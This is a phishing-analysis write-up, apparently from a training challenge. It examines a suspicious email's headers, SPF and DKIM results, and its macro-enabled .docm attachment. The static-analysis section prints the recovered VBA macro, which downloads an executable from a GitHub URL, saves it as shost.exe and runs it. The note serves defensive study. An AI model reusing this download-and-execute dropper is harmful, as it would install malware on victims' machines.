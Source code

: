 ```yaml
---
tags: 
date-created: 
dg-publish: false
---
```

[[Challenges TimeKeeping]]
### Initial Triage
---
The **from** says 'Adam' but the email content says 'Alexia' and lastly there is attached word document with a `.docm` extension, macro enabled.
![[Phishing - Rerun C3.png]]
## Header Analysis
---
Date Sent: Tue, 14 May 2024 23:31:08 +0000

Subject: You're Invited!

Message-ID:
```C
<SA1PR14MB737384979FDD1178FD956584C1E32@SA1PR14MB7373.namprd14.prod.outlook.com>
```

Return-Path: `abarry@live.com`

Received: from SA1PR14MB7373.namprd14.prod.outlook.com

The `Message-ID` and `Received` header matches with outlook.com and the "namprd14.prod.outlook.com" domain matches with a `whois` lookup as outlook.com is owned by Microsoft:

Receiver: `emily.nguyen@glbllogistics.co`

Sender Display Name: Adam Barry

![[Phishing - Rerun C3-1.png]]
### Authentication Checks
---
Performing a `whois` lookup against the found domain on `return-path`:

![[Phishing - Rerun C3-2.png|450]]
It matches with the received headers as Azure and Outlook is both owned by Microsoft and the sender most likely used Azure's email services and the `return-path` matches with the `Received-SPF` record as well as passing the SPF check:

![[Phishing - Rerun C3-3.png]]
We can also confirm this with `dig`:

```C
dig TXT live.com | grep -i "spf"
```

Output shows that it aligns with Microsoft Outlook:

![[Phishing - Rerun C3-4.png]]
**Analyzing DKIM header:**

In order to verify and locate the public key, we need the domain highlighted by `d` and the selector highlighted by `s`:

![[Phishing - Rerun C3-6.png]]
Then using tools such as `nslookup` to perform DKIM lookup:
```C
nslookup -type=txt selector1._domainkey.live.com
```

Once again, it matches or aligns with Outlook.com: (ideally verify with DKIM lookup tool)
![[Phishing - Rerun C3-5.png]]
Then at the `Authentication-Results` shows, both authentication checks passed, no spoofing and content tampering found:

![[Phishing - Rerun C3-7.png]]
## Content Examination
---
There seems to be a sender and content email sender mismatch as highlighted:
![[Phishing - Rerun C3-8.png]]Viewing the source content, does not show any obsfucation techniques, just pure html:

![[Phishing - Rerun C3-9.png]]
### Content Examination
---
The email includes a `.docm` file which is macro enabled typically used by malicious actor to execute code once the document open:

Extracting the `.docm` file using `oledump.py` by first determining it's data stream number:

```C
python3 ../Tools/emldump.py challenge3.eml 
```

Output:
![[Phishing - Rerun C3-10.png]]
Then extracting the file in question with the command:

```C
python3 ../Tools/emldump.py challenge3.eml -s 5 -d > AR_Wedding_RSVP.docm
```

Then extracting it's file hash then upload it to VirusTotal to confirm if it's malicious or not:

```C
sha256sum AR_Wedding_RSVP.docm
```

Output: 

```
41c3dd4e9f794d53c212398891931760de469321e4c5d04be719d5485ed8f53e AR_Wedding_RSVP.docm 
```

VirusTotal flagged it as malicious and tagged it as trojan with a score of 44/66:

![[Phishing - Rerun C3-12.png]]
#### Static Analysis
---
**Extracting the script that is embedded in the document** by identifying first the data stream number:

```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm 
```

Output:

![[Phishing - Rerun C3-13.png]]
Then **revealing the source code:**
```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm -s 3 --vbadecompresscorrupt
```

The most interesting part in this script is this:

```PowerShell
Set http_obj = CreateObject("Microsoft.XMLHTTP")
Set stream_obj = CreateObject("ADODB.Stream")
Set shell_obj = CreateObject("WScript.Shell")

URL = "https://github.com/TCWUS/Pastebin-Uploader.exe"
FileName = "shost.exe"
RUNCMD = "shost.exe"

http_obj.Open "GET", URL, False
http_obj.send

stream_obj.Type = 1
stream_obj.Open
stream_obj.write http_obj.responseBody
stream_obj.savetofile FileName, 2

shell_obj.Run RUNCMD

```

Essentially what the script does is it downloads an executable from github (hxxps[://]github[.]com/TCWUS/Pastebin-Uploader[.]exe) and saves it **shost.exe** then gets executed by spawning a command prompt and calling it's filename.

**Verdict**: The `.docm` macro-enabled attachment alone is suspicious enough add in the fact that there is a slightly mispelled names between the `from` and found in the content but after further investigation by:

- Submitting the `.docm` hash in VirusTotal and getting flagged as malicious.
- The script embedded calls out to github and downloads an executable most likely is malicious.

With these evidence: the verdict is malicious.


53 mins.